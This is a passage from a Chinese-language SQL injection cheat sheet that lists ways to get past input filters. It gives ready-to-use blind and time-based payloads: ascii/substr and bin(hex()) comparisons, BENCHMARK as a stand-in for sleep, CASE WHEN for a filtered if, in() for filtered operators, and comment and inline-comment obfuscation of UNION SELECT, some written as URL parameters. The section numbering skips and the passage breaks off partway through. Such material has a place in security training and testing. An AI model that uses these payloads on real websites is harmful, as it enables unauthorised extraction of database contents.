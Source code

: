 ##### 2.ascii

通过bin(hex())将字符转为二进制判断：

```sql
if((ascii(substr((select database()),1,1))>97),1,0)#

select 0 or if(bin(hex(substr((select database()),1,1)))>111101,1,0)#
#111101  => bin(hex(97)) ||bin(hex('a'))
```

##### 3.sleep

等价函数benchmark(第一个参数为执行的次数,第二个为执行的语句)：

```sql
SELECT BENCHMARK(20000000,md5(123));
```

##### 4.if被过滤

使用case when

```sql
if(condition,1,0) 
case when 写法: 
case when condition then 1 else 0 end

or if((ascii(substr((select database()),1,1))>97),1,0)#
or case when ascii(substr((select database()),1,1))>97 then 1 else 0 end#
```

##### 7.=<>被过滤

使用in()绕过

```sql
/?id=' or ascii(substr((select database()),1,1)) in(115)--+    // 正常回显

/?id=' or substr((select database()),1,1) in('s')--+    // 正常回显
```

##### 8.union select where等被过滤

1.  使用注释

    ```sql
    U/**/ NION /**/ SE/**/ LECT /**/user，pwd from user
    ```

2.  内敛注释

    ```
    id=-1'/*!UnIoN*/ SeLeCT 1,2,concat(/*!table_name*/) FrOM 	/*information_schema*/.tables /*!WHERE *//*!TaBlE_ScHeMa*/ like database()#
    ```

3.  大小写

